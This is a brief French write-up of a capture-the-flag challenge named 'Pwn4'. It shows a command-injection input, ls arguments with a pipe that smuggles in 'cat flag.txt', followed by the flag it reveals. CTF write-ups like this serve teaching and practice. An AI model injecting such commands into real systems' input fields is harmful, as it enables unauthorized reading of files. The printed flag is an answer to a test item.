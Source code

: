 # Pwn4

Quand on se connecte au defi, un prompt nous demande les arguments pour la 
commande ls.

Comme il n'y a aucun filtre j'utilise : 


```bash
ls -la | cat flag.txt
```

ce qui donne le flag :

gigem{5y573m_0v3rfl0w}
